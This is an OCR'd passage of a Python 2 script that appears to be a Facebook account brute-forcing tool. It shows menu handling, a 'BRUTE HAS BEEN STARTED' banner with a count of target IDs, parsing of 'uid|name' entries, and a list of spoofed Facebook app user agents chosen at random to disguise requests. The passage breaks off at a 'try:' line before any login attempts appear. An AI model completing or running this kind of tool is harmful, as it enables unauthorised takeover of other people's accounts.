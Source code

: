 			print("\t\033[91;1m  REQUESTED FILE NOT FOUND")

			print("")

			raw_input("\033[93;1m PRESS ENTER TO BACK")

			crack()

	elif select =="0":

	    menu()

	else:

		print("")

		print("\t\033[91;1m  SELECT VALID OPTION")

		print("")

		crack_select()

	os.system("clear")

	logo()

	print("")

	print("\033[93;1m  TOTAL IDS : \033[92;1m"+str(len(id)))

	print("\033[92;1m  BRUTE HAS BEEN STARTED\x1b[0m")

	print("\033[94;1m  WAIT AND SEE \033[92;1m✘\033[91;1m✘\x1b[0m")

	linex()

	def main(arg):

		user=arg

		uid,name=user.split("|")

		_azimua = random.choice(["Mozilla/5.0 (Linux; Android 10; Redmi Note 8 Pro Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/83.0.4103.106 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/275.0.0.49.127;]", "[FBAN/FB4A;FBAV/246.0.0.49.121;FBBV/181448449;FBDM/{density=1.5,width=540,height=960};FBLC/en_US;FBRV/183119516;FBCR/TM;FBMF/vivo;FBBD/vivo;FBPN/com.facebook.katana;FBDV/vivo 1606;FBSV/6.0.1;FBOP/1;FBCA/armeabi-v7a:armeabi;]", "Dalvik/2.1.0 (Linux; U; Android 5.1.1; SM-J320F Build/LMY47V) [FBAN/FB4A;FBAV/43.0.0.29.147;FBPN/com.facebook.katana;FBLC/en_GB;FBBV/14274161;FBCR/Tele2 LT;FBMF/samsung;FBBD/samsung;FBDV/SM-J320F;FBSV/5.0;FBCA/armeabi-v7a:armeabi;FBDM/{density=3.0,width=1080,height=1920};FB_FW/1;]", "Mozilla/5.0 (Linux; Android 5.1.1; A37f Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.152 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/305.1.0.40.120;]", "Mozilla/5.0 (Linux; Android 10; REALME RMX1911 Build/NMF26F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.111 Mobile Safari/537.36 AlohaBrowser/2.20.3", "Mozilla/5.0 (iPhone; CPU iPhone OS 11_3 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E216 [FBAN/FBIOS;FBAV/170.0.0.60.91;FBBV/105964764;FBDV/iPhone10,1;FBMD/iPhone;FBSN/iOS;FBSV/11.3;FBSS/2;FBCR/Sprint;FBID/phone;FBLC/en_US;FBOP/5;FBRV/106631002]", "Mozilla/5.0 (Linux; Android 7.1.1; ASUS Chromebook Flip C302 Build/R70-11021.56.0; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/70.0.3538.80 Safari/537.36 [FB_IAB/FB4A;FBAV/198.0.0.53.101;]"])

		try:
